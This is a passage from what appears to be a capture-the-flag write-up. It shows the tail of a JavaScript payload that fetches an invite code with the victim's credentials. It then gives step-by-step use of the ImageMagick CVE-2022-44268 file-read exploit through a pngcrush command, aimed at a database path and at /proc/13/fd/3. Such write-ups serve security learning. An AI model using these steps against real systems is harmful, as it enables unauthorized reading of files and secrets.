 ```html
               )
           }catch(err){
               console.log(err)
           }
           (async() =>{
               await sleep(500)
               const x = await fetch("https://127.0.0.1:1337/api/invite-code/bengsky",{
                   credentials: "include"
               })
               const y = await x.json()
               const code = y.invite_code.code
           })()
   </script>
</html>
```
We just need to serve it into ssl server since the protocol is forced to be https
![alt text](/assets/img/request.png)

And then just register with that invite_code

### Arbitrary File Read
We know that route upload is doing resizing using vulnerable imagemagick version
And with this PoC 
[CVE-2022-44268](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
We can craft our malicious image to read the database.db path on **/app/instance/database.db**

Then step to exploit is 
1. pngcrush -text a "profile" "/app/instance/database.db" x.png
2. Upload
3. Download uploaded image
4. Identify -verbose download.png
Lets have a try

![alt text](/assets/img/fail.png)

Its fail to read **/app/instance/database.db** turns out it cant read **.db** file.
After several research turns out the python stored the sqlite object into **fd/3**

![alt text](/assets/img/ps.png)

python run in PID 13
Since the user is **root** we can simply get the **/proc/13/fd/3**

Lets have try with ImageMagick
